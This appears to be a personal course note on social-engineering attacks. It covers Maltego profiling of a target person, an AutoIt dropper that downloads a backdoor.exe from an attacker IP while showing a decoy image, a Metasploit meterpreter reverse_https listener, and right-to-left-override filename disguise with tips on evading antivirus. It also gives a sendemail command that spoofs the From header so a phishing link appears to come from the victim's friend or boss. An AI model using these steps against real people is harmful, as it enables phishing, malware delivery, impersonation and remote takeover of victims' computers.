 # Client side attacks — social engineering
-   There are many tools on market for this activity
-   It is mainly about gathering as much information about target person and creating strategy how to manipulate the target person to help us with the hack

## Tool <strong>Maltego</strong>
-   It can automatically find information regarding target. 
-   Example 1st step gather information:
    1)  Create graph
    2)  Put person inside the Graph
    3)  Fill the name
    4)  Right click on Person and in transformers find websites
    5)  It will try to find all websites connected to the name including profiles on platforms like Udemy, Stack Overflow...
    6)  Go through all the found websites and if more information was found, start filling the graph. Did you find Twitter/Facebook/Instagram... account? Put them in.
    7)  To add more entities, than shown on left side. Find the correct one under Entity option in top bar.
    8)  If did you find Twitter, create entity Twitter fill the information. Right click and find friends on twitter.
    9)  Did you find email? Add new entity email address and set the email you found. Right click and try to find more with transforms.
        -   Possible way, choose domain name
        -   after the domain shows right click and try to get email addresses or try to find a website and from there try to find more email addresses

-   Example 2nd step build strategy:
    1)  Put the Person on the top and connect the gathered information that was gathered based on relations.
    2)  Explore the graph, we could find work colleagues which might be also friends. Email that looks like coming from person like this can be sent to the target person, which will include for example backdoor.

## Include backdoor created before with any file
-   Use file created in 08_client_side_attacks and put it inside image / pdf / anything else
-   Steps (using Autoit):
    1)  Create auto download and run script (example: included in attachments file `autoit-download-and-execute.txt` to use the file, fill in the download URLs in line 4\). First URL is the not malicious file (example some image), Second should be direct URL to the backdoor (example: `192.168.72.129/evil_files/backdoor.exe`).
    2)  Change file extension from .txt to .au3
    3)  Create icon which will correspond to the non-malicious file. In our case image.
    4)  Open Compile Script (from Autoit). Tool is automatically installed with Veil.
        -   Choose source as our file
        -   Set destination
        -   Set custom icon created in step 3
        -   Click on convert and after done get the created .exe

-   Listen in Metasploit to any incoming connection (described in 08_client_side_attacks):
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```
-   get the compiled script from point 4 to victim pc via email or any other method and wait for attacked person to open it. 
-   the file is shown on the victim's machine with icon we previously created and it will open the image for him, therefore it is less suspicious and it executes at background the malicious code. But it is still .exe

### Convert the file from .exe to any desired suffix
-   use right to left characters:
    -   rename the file in the way, that the desired suffix is on the contrary at the end of file name: `porsche.exe => porschegpj.exe`
    -   use `right to left override` character on the position where the contrary suffix starts
    -   system will now read the name in this way (see the source code of this file next to result to understand better): `porsche‮gpj.exe`
    -   best works with filenames which ends with exe
    -   when downloaded by browser. Browser will replace the right to left override character. To prevent it from happening zip the file.
Note: In my case Chrome is able to detect the virus inside .zip. But .7z went smoothly through. But then it was stopped via windows defender. I was able to make this work only after windows defender was down. Probably well known technique by antiviruses.

## Fake email method 1
-   Only works if the organization doesn't implement proper email authentication. Check if the domain can be spoofed can be done through [https://easydmarc.com/tools/dmarc-lookup](https://easydmarc.com/tools/dmarc-lookup). If there is no DMARC detected, the emails can be sent to the domain server. If DMARC is not implemented, attackers can make emails that look like it comes from the domain.
-   There are many websites for sending spoofed emails. The problem with them is that they will usually end up in spam box.
-   It is better to use SMTP servers. It is possible to send the malicious data via websites which are used for sending business emails like Brevo or Mailchimp. Example:
    1)  Create account and find information regarding smtp server to be able to connect and send emails through it.
    2)  Use `sendemail` tool. From email address should be someone who the victim knows. To address is the victims address. Include link to the trojan in the message body. Example:
        ```bash
        sendemail -xu email@address.com -xp passwordFromServer -s smtp.server.address.com:portNumber -f 'from.email@addres.com' -t 'to.email@address.com' -u 'subject text' -m 'message body' -o message-header="FROM: From Person <from.email@addres.com>"
        ```
        -   `-xu`, `-xp` and `-s` => authentication to smtp server (gathered from step 1)
        -   `-f` => sender could be victims friend / boss / anybody he knows
        -   `-t` => victims email
        -  `-o message-header=` => advanced option, this example shows how to change 'FROM', so the email looks like it came from the sender (in Gmail, this is also shown)
    3) After sent email like this, don't forget to again set the listener for incoming connection (such as Metasploit as described before)

## Fake emails method 2
-   Fake emails using PHP (requires web hosting)
-   Setup webhosting with support of sending emails, create webpage in php for sending emails including From field which is working on same basis as the command in method 2.
-   Again, send the email with the link and set Metasploit for listening.
